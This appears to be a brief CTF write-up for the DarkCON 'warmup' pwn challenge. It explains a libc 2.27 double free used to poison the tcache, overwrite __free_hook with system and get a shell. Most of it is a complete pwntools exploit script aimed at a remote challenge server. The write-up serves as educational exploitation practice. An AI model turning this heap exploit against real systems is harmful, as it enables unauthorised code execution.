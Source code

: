 ## DarkCON CTF: warmup [pwn]
##### *tl;dr: libc 2.27 double free to tcache poison*

#### I'll do a more detailed writeup later. After reversing, we find out that we don't have uaf/heap overflow but we can double free without restrictions. We leverage this double free to perform a tcache poison to get a chunk on top of `__free_hook` and free a chunk with `'/bin/sh'` as it's first 8 bytes to get a shell.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./a.out', checksec = False)
libc = ELF('./libc.so.6', checksec = False)

#p = process('./a.out', env = {'LD_PRELOAD' : libc.path})
p = remote("65.1.92.179", 49155)
strcpy_leak = int(p.recvuntil('\n').split('gift: ')[1].strip(), 16)
libc_base = strcpy_leak - 0xb65b0

log.info(hex(strcpy_leak))
log.info(hex(libc_base))
print(p.recvuntil('exit\n'))

#: GDB SETTINGS
breakpoints = ['break *0x400b17', 'break *0x400ba7']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
def create_chunk(index, size, data):

	p.sendline('1')
	p.sendline(str(index))
	p.sendline(str(size))
	p.sendline(data)
	print(p.recvuntil('exit\n'))

def delete_chunk(index):

	p.sendline('2')
	p.sendline(str(index))
	print(p.recvuntil('exit\n'))

#: PWN THY VULNS
create_chunk(0, 0x10, 'A' * (0x10 - 1))
create_chunk(1, 0x10, 'B' * (0x10 - 1))

delete_chunk(0)
delete_chunk(1)
delete_chunk(0)

create_chunk(0, 0x10, p64(libc_base + libc.symbols['__free_hook']))
create_chunk(1, 0x10, '/bin/sh\x00')
create_chunk(2, 0x10, '/bin/sh\x00')
create_chunk(3, 0x10, p64(libc_base + libc.symbols['system']))
p.interactive()
```
![](warmup_shell.png)